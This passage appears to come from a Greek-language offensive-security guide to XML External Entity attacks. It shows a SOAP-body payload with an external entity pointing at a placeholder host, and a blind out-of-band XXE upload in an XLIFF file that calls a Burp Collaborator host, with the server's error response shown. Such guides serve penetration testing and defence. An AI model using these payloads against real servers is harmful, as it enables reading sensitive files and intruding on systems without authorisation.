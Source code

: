 Η επίθεση XML External Entity (XEE) είναι μια ευπάθεια που εκμεταλλεύεται τη δυνατότητα των XML parsers να αναφέρονται σε εξωτερικές οντότητες. Αυτή η επίθεση μπορεί να χρησιμοποιηθεί για να διαβάσει ευαίσθητα αρχεία από τον διακομιστή ή ακόμα και για να εκτελέσει απομακρυσμένο κώδικα.

Για να εκτελέσετε μια επίθεση XEE, πρέπει να εντοπίσετε μια εφαρμογή που χρησιμοποιεί το πρωτόκολλο SOAP για την επικοινωνία με τον διακομιστή. Στη συνέχεια, πρέπει να εντοπίσετε ένα σημείο εισόδου όπου μπορείτε να εισάγετε XML δεδομένα.

Για να εκμεταλλευτείτε την ευπάθεια XEE, μπορείτε να δημιουργήσετε ένα ειδικά σχεδιασμένο XML payload που περιέχει μια εξωτερική οντότητα που αναφέρεται σε ένα ευαίσθητο αρχείο. Όταν η εφαρμογή αναλύει το XML, η εξωτερική οντότητα θα αναφερθεί στο αρχείο και θα επιστρέψει τα περιεχόμενά του.

Με την επιτυχή εκτέλεση της επίθεσης XEE, μπορείτε να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες, όπως διαπιστευτήρια χρηστών, κωδικούς πρόσβασης ή ακόμα και να εκτελέσετε κακόβουλο κώδικα στον διακομιστή.
```xml
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```
## XLIFF - XXE

Αυτό το παράδειγμα είναι εμπνευσμένο από το [https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe](https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe)

Το XLIFF (XML Localization Interchange File Format) χρησιμοποιείται για την τυποποίηση της ανταλλαγής δεδομένων στις διαδικασίες τοπικοποίησης. Είναι ένα βασισμένο σε XML μορφότυπο που χρησιμοποιείται κυρίως για τη μεταφορά δεδομένων που μπορούν να τοπικοποιηθούν μεταξύ εργαλείων κατά τη διάρκεια της τοπικοποίησης και ως ένα κοινό μορφότυπο ανταλλαγής για εργαλεία CAT (Computer-Aided Translation).

### Ανάλυση Τυφλού Αιτήματος

Γίνεται ένα αίτημα στον διακομιστή με τον παρακάτω περιεχόμενο:
```xml
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://redacted.burpcollaborator.net/?xxe_test"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```
Ωστόσο, αυτό το αίτημα προκαλεί ένα εσωτερικό σφάλμα του διακομιστή, αναφέροντας συγκεκριμένα ένα πρόβλημα με τις δηλώσεις σήμανσης:
```json
{"status":500,"error":"Internal Server Error","message":"Error systemId: http://redacted.burpcollaborator.net/?xxe_test; The markup declarations contained or pointed to by the document type declaration must be well-formed."}
```
Παρά το σφάλμα, καταγράφεται ένα χτύπημα στο Burp Collaborator, που υποδηλώνει κάποιο επίπεδο αλληλεπίδρασης με την εξωτερική οντότητα.
